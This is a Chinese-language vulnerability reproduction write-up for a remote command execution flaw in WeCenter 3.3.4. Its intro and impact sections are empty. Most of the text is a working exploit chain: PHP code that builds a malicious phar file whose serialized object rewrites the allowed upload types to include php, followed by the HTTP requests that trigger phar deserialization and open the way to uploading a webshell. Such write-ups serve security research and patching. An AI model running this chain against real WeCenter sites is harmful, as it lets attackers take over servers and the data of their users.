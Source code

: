 WeCenter 3.3.4 远程命令执行
===========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 远程命令执行

**WeCenter** 后台的 **允许的附件文件类型**
处，设置了用户可上传的文件类型后缀。而这个配置是写在数据库中的，我们可以利用前面的任意
**SQL** 语句执行的 **POP** 链，往字段中添加 **php** 文件后缀。

![](resource/WeCenter3.3.4远程命令执行/media/rId25.png)

### poc

    <?php
    class AWS_MODEL
    {
        private $_shutdown_query = array();

        public function __construct($_shutdown_query)
        {
            $this->_shutdown_query = $_shutdown_query;
        }
    }

    $sql = array('update aws_system_setting set value=\'s:45:"jpg,jpeg,png,gif,zip,doc,docx,rar,pdf,psd,php";\' where varname=\'allowed_upload_types\'');
    $evilobj = new AWS_MODEL($sql);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();
    ?>

### 利用

这里以 **RCE** 利用为例子。我们先用上面的 **EXP**
生成文件，然后找个可以上传文件的地方。这里要注意，一定不要选择在用户头像处上传。这里我们通过发起问题的地方来上传文件。

![](resource/WeCenter3.3.4远程命令执行/media/rId28.png)

通过如下数据包，将 **headimgurl** 插入数据库中（ **Cookie**
前缀每个网站都不一样，修改成自己的即可）。

    GET /wecenter334/?/m/weixin/binding/ HTTP/1.1
    Host: 0.0.0.0
    Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=akl7d5skae6ebea69bp8r1b4f0; CNZZDATA1273638993=564846603-1579067041-%7C1579097763; xhj__user_login=NcIFvaZbkaxoQfofEGo%2FSOCyrXq5R0lZofmF9uqaJHO5tpVyag7GEP3fdh9hKvPUf8Xj4x3kkxgLXcf1L4wocSQu9BUquhozfdiEN2Hfg8vj73XVn1f09yLfbpfbVs7K; xhj__WXConnect={"access_token":{"openid":1},"access_user":{"headimgurl":"phar:\/\/uploads\/question\/20200116\/f39510a7e8e47e3e4dcabbadeedd12f7.gif","nickname":"mochazz"}}
    Connection: close
    $wx = array(
        'access_token' => array('openid'=>1),
        'access_user'  => array('headimgurl'=>'phar:///uploads/question/20200116/f39510a7e8e47e3e4dcabbadeedd12f7.gif','nickname'=>'mochazz')
    );
    echo json_encode($wx);

接着通过如下数据包触发 **phar反序列化** 执行 **SQL** 语句。

    GET /wecenter334/?/account/ajax/synch_img/ HTTP/1.1
    Host: 0.0.0.0
    Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=qb72k9k1sl53gqibbg53nf32o1; CNZZDATA1273638993=564846603-1579067041-%7C1579137884; xhj__user_login=N9hSYaQOjPMdtxOXo9jQuCVQSykmK88gl3DTI4AmL%2BnhLpgnHFGGSHkzxAPYaVMbXo%2FAndADc%2FaD0wytUEK71YrLmxWCuEZDCSwn9b0ApyOpcIKa6E4cOotHqZpZwVq%2B
    Connection: close

现在，我们就可以随意上传 **webshell** 了。

![](resource/WeCenter3.3.4远程命令执行/media/rId29.png)

image

